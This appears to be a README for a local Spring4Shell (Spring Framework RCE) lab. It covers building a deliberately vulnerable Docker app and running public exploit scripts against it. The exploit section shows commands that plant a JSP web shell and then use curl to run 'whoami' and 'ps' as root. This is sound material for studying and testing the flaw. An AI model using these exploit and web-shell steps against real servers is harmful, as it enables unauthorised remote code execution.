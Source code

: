 # Spring4Shell PoC Application

- [Spring Framework RCE, Early Announcement
](https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement) - Spring
- [Spring4Shell: Security Analysis of the latest Java RCE '0-day' vulnerabilities in Spring
](https://github.com/lunasec-io/lunasec/blob/master/docs/blog/2022-03-30-spring-core-rce.mdx) - LunaSec

## Getting started

### Run application

```bash
$ ./gradlew clean build -i
```

```bash
$ docker build . -t spring4shell
$ docker run -p 8080:8080 --name spring4shell --rm spring4shell
```

### Exploit

- [BobTheShoplifter/Spring4Shell-POC](https://github.com/BobTheShoplifter/Spring4Shell-POC)
- [craig/SpringCore0day](https://github.com/craig/SpringCore0day)

```bash
$ pip install -r requirements.txt
```

```bash
$ ./exploit.py --url http://localhost:8080/rce/greeting
[✘] http://localhost:8080/rce/greeting Not Vulnerable!

# application log
2022-04-04 10:56:02.632  INFO 1 --- [nio-8080-exec-1] o.s.web.servlet.DispatcherServlet        : Initializing Servlet 'dispatcherServlet'
2022-04-04 10:56:02.634  INFO 1 --- [nio-8080-exec-1] o.s.web.servlet.DispatcherServlet        : Completed initialization in 1 ms
04-Apr-2022 10:56:05.099 INFO [Catalina-utility-1] org.apache.catalina.startup.HostConfig.deployDirectory Deploying web application directory [/usr/local/tomcat/webapps/ROOT]
04-Apr-2022 10:56:05.123 INFO [Catalina-utility-1] org.apache.catalina.startup.HostConfig.deployDirectory Deployment of web application directory [/usr/local/tomcat/webapps/ROOT] has finished in [23] ms
```

```bash
$ ./exploit.py --url http://localhost:8080/tomcatwar.jsp
Vulnerable，shell ip:http://localhost:8080/tomcatwar.jsp?pwd=j&cmd=whoami

$ curl "http://localhost:8080/tomcatwar.jsp?pwd=j&cmd=whoami" --output -
root

$ curl "http://localhost:8080/tomcatwar.jsp?pwd=j&cmd=ps" --output -
  PID TTY          TIME CMD
    1 ?        00:00:19 java
   99 ?        00:00:00 ps
```
